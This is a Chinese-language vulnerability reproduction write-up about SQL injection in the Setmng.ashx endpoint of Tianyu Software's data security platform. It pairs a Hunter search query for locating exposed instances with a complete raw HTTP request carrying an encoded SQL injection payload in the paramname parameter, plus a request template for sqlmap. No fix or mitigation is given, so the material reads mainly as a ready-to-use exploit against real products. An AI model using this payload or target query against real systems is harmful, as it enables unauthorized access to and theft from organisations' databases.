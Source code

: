 # 天喻软件数据安全平台 Setmng.ashx 存在SQL注入漏洞

# 一、漏洞简介
武汉天喻软件有限公司是依托国家企业信息化应用支撑软件工程技术研究中心成立的专业数字化设计软件提供商，武汉天喻软件有限公司天喻软件数据安全平台 Setmng.ashx 存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 天喻软件数据安全平台

# 三、资产测绘
+ hunter`web.body="数据安全"&&web.body="天喻"`
+ 特征

![1702278921868-ed8c54f2-4af4-4217-a84e-a6b0effd021b.png](./img/NArvknPrBwITK6HP/1702278921868-ed8c54f2-4af4-4217-a84e-a6b0effd021b-609325.png)

# 四、漏洞复现
```plain
GET /p_handler/Setmng.ashx?operatetype=getparamvalue&paramname=1%27%2b(SELECT%20CHAR(90)%2bCHAR(103)%2bCHAR(103)%2bCHAR(71)%20WHERE%205505=5505%20AND%206796%20IN%20(SELECT%20(CHAR(113)%2bCHAR(98)%2bCHAR(112)%2bCHAR(118)%2bCHAR(113)%2b(SELECT%20(CASE%20WHEN%20(6796=6796)%20THEN%20CHAR(49)%20ELSE%20CHAR(48)%20END))%2bCHAR(113)%2bCHAR(107)%2bCHAR(113)%2bCHAR(113)%2bCHAR(113))))%2b%27 HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=ubyt433ue142lpuddbnjsybm
Upgrade-Insecure-Requests: 1
```

![1702279064168-29353ede-f5fc-436b-b54d-d05437eabfcd.png](./img/NArvknPrBwITK6HP/1702279064168-29353ede-f5fc-436b-b54d-d05437eabfcd-986150.png)

sqlmap

```plain
GET /p_handler/Setmng.ashx?operatetype=getparamvalue&paramname=1 HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=ubyt433ue142lpuddbnjsybm
Upgrade-Insecure-Requests: 1
```

![1702279315862-2a9e2004-44ef-4e0c-a7f2-28f741e9a1a1.png](./img/NArvknPrBwITK6HP/1702279315862-2a9e2004-44ef-4e0c-a7f2-28f741e9a1a1-694535.png)



> 更新: 2024-02-29 23:55:43  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/eapt0rguixag6qgu>